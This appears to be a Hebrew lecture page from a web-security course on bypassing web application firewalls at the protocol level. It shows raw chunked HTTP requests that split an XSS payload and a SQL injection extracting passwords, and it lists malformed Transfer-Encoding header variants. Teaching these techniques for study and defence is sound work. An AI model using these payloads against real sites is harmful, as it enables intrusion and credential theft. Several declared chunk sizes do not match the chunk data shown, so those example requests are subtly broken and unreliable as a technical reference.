

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/8 - עקיפת WAF/8.5 - עקיפה ברמת פרוטוקול/8.5 - עקיפה ברמת פרוטוקול - הרצאה/index.html · generator: mkdocs

# הbypass ברמת פרוטוקול - Protocol-level WAF Bypass

## הרעיון המרכזי

ה-WAF חייב לפרסר את בקשת ה-HTTP כדי לבדוק אותה. אם נשלח בקשה בצורה שה-WAF מפרסר באופן שונה מהשרת, נוכל להחביא את הpayload הזדוני. הפער בין פרסרים (parser differential) הוא הבסיס לכל הטכניקות בפרק זה.

## הbypass באמצעות Chunked Transfer Encoding

### כיצד Chunked Encoding עובד

ב-HTTP/1.1, במקום לציין `Content-Length`, אפשר לשלוח את הגוף בחתיכות (chunks). כל חתיכה מתחילה בגודלה בהקסדצימלי:

```http
POST /search HTTP/1.1
Host: target.com
Transfer-Encoding: chunked

4
test
0

```

המבנה: גודל בהקס, שורה חדשה, נתונים, שורה חדשה, ואז `0` לסיום.

### פיצול payload בין chunks

```http
POST /search HTTP/1.1
Host: target.com
Transfer-Encoding: chunked

3
q=<
3
scr
3
ipt
9
>alert(1
b
)</script>
0

```

ה-WAF רואה כל chunk בנפרד ולא מרכיב את התמונה המלאה. השרת מרכיב את כל ה-chunks ומקבל: `q=<script>alert(1)</script>`

![איור המראה כיצד פיצול הבקשה לחלקים גורם לכך שה-WAF בודק כל chunk בנפרד בעוד השרת מרכיב את כל החלקים לכדי payload שלם](../../../images/illustrations/webadv-8-5-chunked-reassembly.svg)

### פיצול payload SQLi

```http
POST /api/data HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

5
id=1'
7
 UNION
7
SELECT
8
password
b
 FROM user
3
s--
0

```

השרת מרכיב: `id=1' UNION SELECT password FROM users--`

### טריק Transfer-Encoding מורכב

חלק מה-WAFs לא מטפלים נכון בווריאציות של header Transfer-Encoding:

```http
# Space before the value
Transfer-Encoding:  chunked

# Tab before the value
Transfer-Encoding:	chunked

# Uppercase letters
Transfer-Encoding: Chunked

# Duplicate header
Transfer-Encoding: chunked
Transfer-Encoding: identity

# With a fake parameter
Transfer-Encoding: chunked; q=0.5

# New line (line folding, deprecated)
Transfer-Encoding:
 chunked
```
